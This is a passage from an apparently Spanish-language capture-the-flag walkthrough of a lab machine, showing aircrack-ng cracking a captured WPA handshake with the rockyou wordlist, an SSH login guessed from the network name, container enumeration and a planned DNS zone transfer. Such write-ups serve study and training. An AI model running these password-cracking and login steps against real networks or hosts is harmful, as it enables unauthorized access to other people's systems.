 ```null
aircrack-ng -e Too_cl0se_to_th3_Sun -w /usr/share/wordlists/rockyou.txt captura.cap

                               Aircrack-ng 1.7 

      [00:08:32] 8176472/14344391 keys tested (16186.86 k/s) 

      Time left: 6 minutes, 21 seconds                          57.00%

                        KEY FOUND! [ flightoficarus ]


      Master Key     : FA C9 FB 75 B7 7E DC 86 CC C0 D5 38 88 75 B8 5A 
                       88 3B 75 31 D9 C3 23 C8 68 3C DB FA 0F 67 3F 48 

      Transient Key  : 46 7D FD D8 1A E5 1A 98 50 C8 DD 13 26 E7 32 7C 
                       DE E7 77 4E 83 03 D9 24 74 81 30 84 AD AD F8 10 
                       21 62 1F 60 15 02 0C 5C 1C 84 60 FA 34 DE C0 4F 
                       35 F6 4F 03 A2 0F 8F 6F 5E 20 05 27 E1 73 E0 73 

      EAPOL HMAC     : AC 1A 73 84 FB BF 75 9C 86 CF 5B 5A F4 8A 4C 38 
```

Esta contraseña corresponde al usuario ```icarus```, sacándolo por intuición pr el SSID y la contraseña (CTF Like). La contraseña es el nombre del SSID

```null
sshpass -p 'Too_cl0se_to_th3_Sun' ssh icarus@10.10.10.83 -p 2222
Last login: Sun Apr 15 16:44:40 2018 from 10.10.14.4
icarus@620b296204a3:~$ 
```

Estoy dentro de otro contenedor

```null
icarus@620b296204a3:~$ hostname -I                                                                                                                                                                              
172.19.0.2
```

En su directorio personal hay un archivo de texto con un dominio

```null
icarus@620b296204a3:~$ cat help_of_the_gods.txt                                                                                                                                                                 

Athena goddess will guide you through the dark...

Way to Rhodes...
ctfolympus.htb
```

Ahora puedo intentar un ataque de transferencia de zona a través del puerto 53, que estaba abierto externamente
